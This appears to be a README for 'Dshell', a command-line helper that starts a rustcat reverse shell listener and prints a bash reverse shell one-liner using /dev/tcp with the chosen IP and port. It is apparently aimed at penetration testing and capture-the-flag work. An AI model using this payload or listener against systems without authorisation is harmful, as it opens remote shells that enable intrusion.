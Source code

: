 # Dshell

<br>

> "A reverse shell shows that true control comes when the target reaches back willingly."

<br>

**Dshell** is a reverse shell script that prepares a responsive shell on a specified port using [rustcat](https://github.com/robiot/rustcat).

<br>

## Features

* Quickly set up a reverse shell listener.
* Kill running Dshell processes on demand.
* Supports multiple network interfaces by default.

<br>

## Installation

Ensure [rustcat](https://github.com/robiot/rustcat) is installed on your system.

<br>

## Usage

<br>

### Help Menu

```sh
dshell -h

[Info] Usage:
    /usr/local/bin/dshell -p <PORT> [IFACE|IP]
    /usr/local/bin/dshell -k <PORT|all>
```
<br>

### Run a Listener

```sh
dshell -p <PORT> [IFACE|IP]
```

<br>

Dshell will output the most commonly used reverse shell `bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'` with the supplied IP and PORT
If no interface or IP is supplied, Dshell will try the following interfaces in order:

* `tun1`
* `tun0`
* `wlan0`
* `eth0`
* `lo`

<br>

### Kill Running Processes

```sh
dshell -k <PORT|all>
```

* `<PORT>` 		– Kill Dshell process running on a specific port.
* `all` 		– Kill all Dshell processes.

<br>

### Examples

Start a listener on port `4444` using `tun0` interface:

```sh
dshell -p 4444 tun0
```

Start a listener on port `4444` using the IP `1.1.1.1`:

```sh
dshell -p 4444 1.1.1.1
```

Kill `all` running Dshell processes:

```sh
dshell -k all
```

Kill Dshell processe that is listening on port `4444`:

```sh
dshell -k 4444
```
